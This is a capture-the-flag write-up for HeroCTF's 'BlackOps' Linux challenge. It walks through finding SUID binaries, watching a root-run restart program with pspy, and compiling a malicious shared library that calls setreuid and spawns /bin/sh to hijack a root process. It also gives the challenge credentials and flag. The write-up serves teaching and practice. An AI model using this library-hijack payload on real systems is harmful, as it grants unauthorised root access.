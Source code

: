# BlackOps

### Category

System

### Description

You asked a friend to set you up with a few samples of http server in different languages for you to test out. He opened an access to one of his machines. He didn't give you admin access, but maybe there is a way to play a trick on him ;)

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Note to run the challenge

Run the docker with SYS_PTRACE capibiltiy enabled.
```
docker run -p 22:22 --cap-add=SYS_PTRACE  blackops
```

### Write up

First thing we notice, is the `servers` folder. There is the following note in it:
```
Hi !

Here is the servers sample you ordered. I had troubles with some libraries on a few test systems. Removing them does the trick for now, until I find a fix.
For security reasons, you can't edit any files, but I copied you an SUID enabled copy of the rm binary, if you need to remove files in order to run the project.

Cheers
```
So we have a SUID rm binary. GTFObins does not reference a way to elevate privileges with the rm binary, so there is little chance that this alone is the way to root.

Let's check if there are other SUID enabled binaries.
```
$ find / -perm -4000 2> /dev/null
/bin/su
/bin/umount
/bin/mount
/home/user1/servers/utils/restart_servers
/home/user1/servers/rm
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
```

`/home/user1/servers/utils/restart_servers` is in the same folder, let's check it out.

```
$ file restart_servers 
restart_servers: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=037d8a491f80ebc4daa6f9c41815f0b3d49cef82, stripped
$ ./restart_servers 
[*] Cleaning all ports
	[*] Killing port 9090
	[*] Killing port 9091
	[*] Killing port 9092
[*] All ports cleaned
[*] Restart services
[*] Services restarted
```
Based on the binary output, it's used to kill the servers, free the used ports, and restart the servers.

Let's check what is going on when the binary is ran. To achieve this, I'm going to us the pspy binary.

```
scp -P 22 pspy64s user1@localhost:~
```

Let's run it and check the processes.

```
2022/05/16 13:05:47 CMD: UID=0    PID=138    | ./restart_servers 
2022/05/16 13:05:47 CMD: UID=0    PID=139    | sh -c /sbin/ldconfig 
2022/05/16 13:05:47 CMD: UID=0    PID=140    | /bin/sh /sbin/ldconfig 
2022/05/16 13:05:47 CMD: UID=0    PID=141    | /bin/kc 
2022/05/16 13:05:47 CMD: UID=0    PID=142    | /bin/fuser 9090/tcp -k 
2022/05/16 13:05:47 CMD: UID=0    PID=143    | /bin/fuser 9091/tcp -k 
2022/05/16 13:05:47 CMD: UID=0    PID=144    | /bin/fuser 9092/tcp -k 
2022/05/16 13:05:47 CMD: UID=0    PID=147    | /usr/bin/python3 /home/user1/servers/src/server.py 
2022/05/16 13:05:47 CMD: UID=0    PID=146    | /home/user1/servers/src/server.go 
2022/05/16 13:05:47 CMD: UID=0    PID=145    | /usr/bin/node /home/user1/servers/src/server.js 
```
There are a few things going on here. Our binary runs other processes:
 - ldconfig: configure dynamic linker run-time bindings
 - kc: ???
 - fuser:  identify processes using files or sockets, used to kill processes on specific ports
 - server.py
 - server.go
 - server.js


```c
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void genports() {
        printf("[%] Running exploit\n");
        setreuid(geteuid(), geteuid());
        execve("/bin/sh", 0, 0);
}
```

```bash
gcc -fPIC -shared -o libgenports.so exploit.c
/etc/ld.so.conf.d/servers.conf
```

### Flag

```
Hero{h1j4cked_l1k3_1n_Bl4ck_0ps}
```
